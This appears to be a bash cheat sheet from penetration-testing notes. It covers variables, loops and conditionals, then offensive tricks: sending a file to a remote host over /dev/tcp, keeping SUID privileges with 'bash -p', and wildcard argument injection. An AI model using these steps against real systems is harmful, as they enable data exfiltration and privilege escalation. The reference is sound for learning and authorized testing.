 # bash

## Variables

### Assign Variable

```bash
foo=1
```

```bash
bar=baz
```

### Use Variable

```bash
$foo
```

---

## Strings

### Concatenate Strings

```bash
"$foo $bar literals, too"
```

---

## Arithmetic

```bash
$ n=100
$ ((n=$n+20))
$ echo $n
120
```

---

## For Loop Structure

### For Each
- Single Line

```bash
for name in $(cat names.txt); do echo $name; done
```

- Multiline

```bash
for name in $(cat names.txt); do
    echo $name
done
```

### For i in Range
- Single Line

```bash
for i in {1..254}; do echo "192.168.1.$i"; done
```

- Multiline

```bash
for i in {1..254};
    do echo "192.168.1.$i";
done
```

---

## If Structure
- Single Line

```bash
if [ $foo -gt 0 ]; then echo $foo; fi
```

- Multiline

```bash
if [ $foo -gt 0 ]; then 
    echo $foo
fi
```

---

## File Transfer

```bash
cat $FILE > /dev/tcp/$REMOTE_IP/$REMOTE_PORT
```

---

## Abuse SUID/SGID Bash

If `bash` is SUID and/or SGID, it won't automatically retain the privileges of the owner and/or group when executed by default. To retain those privileges, run it with the `-p` flag.

```bash
bash -p
```

---

## Wildcard Behavior

In `bash`, the wildcard operator `*` creates a string out of all of the file names in the current directory and replaces the wildcard with that string.

For example, let's say the current directory has two files in it: `-l` and `-a`.

```bash
$ ls
-a -l
```

Executing the command `ls *` is equivalent to executing the command `ls -a -l`, because the wildcard injects the file names in the current directory into the command.
